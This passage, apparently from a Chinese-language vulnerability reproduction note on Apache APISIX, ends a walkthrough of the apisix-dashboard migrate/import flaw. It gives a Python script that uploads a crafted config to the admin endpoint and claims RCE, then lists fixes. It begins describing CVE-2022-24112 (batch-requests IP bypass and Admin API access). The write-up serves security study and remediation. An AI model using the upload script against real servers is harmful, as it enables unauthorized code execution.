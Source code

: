   本地运行此脚本，当前目录下生成`apisixPayload`文件

- 导入新的配置文件

  ```python
  #!/usr/local/env python3
  # -*- coding: utf-8 -*-
  # author: greetdawn
  
  import requests
  
  url = "http://192.168.32.132:9000/apisix/admin/migrate/import"
  
  files = {"file": open("apisixPayload", "rb")}
  
  res = requests.post(url = url, data = {"mode": "overwrite"}, files = files)
  
  print(res.status_code)
  print(res.text)
  ```

- 请求最新创建的路由，成功`rce`

  ![image-20220308113250686](https://gitee.com/greetdawn/blogImages/raw/master/img/202203081132761.png)

## 修复建议

- 升级到安全版本


   	下载链接:[Releases · apache/apisix-dashboard · GitHub](https://github.com/apache/apisix-dashboard/releases)

- 修改默认账户的账号密码，或通过白名单的方式限制访问的源`IP`







# CVE-2022-24112

## 漏洞描述

该漏洞在` Apache APISIX 2.12.1 `之前的版本中（不包含` 2.12.1 `和` 2.10.4`），启用 `Apache APISIX batch-requests` 插件之后，会存在改写 `X-REAL-IP header `风险。

攻击者通过 `batch-requests` 插件绕过 `Apache APISIX `数据面的` IP `限制。如绕过` IP `黑白名单限制。

如果用户使用 `Apache APISIX` 默认配置（启用` Admin API` ，使用默认` Admin Key `且没有额外分配管理端口），攻击者可以通过 `batch-requests` 插件调用 `Admin API `。



## 影响版本
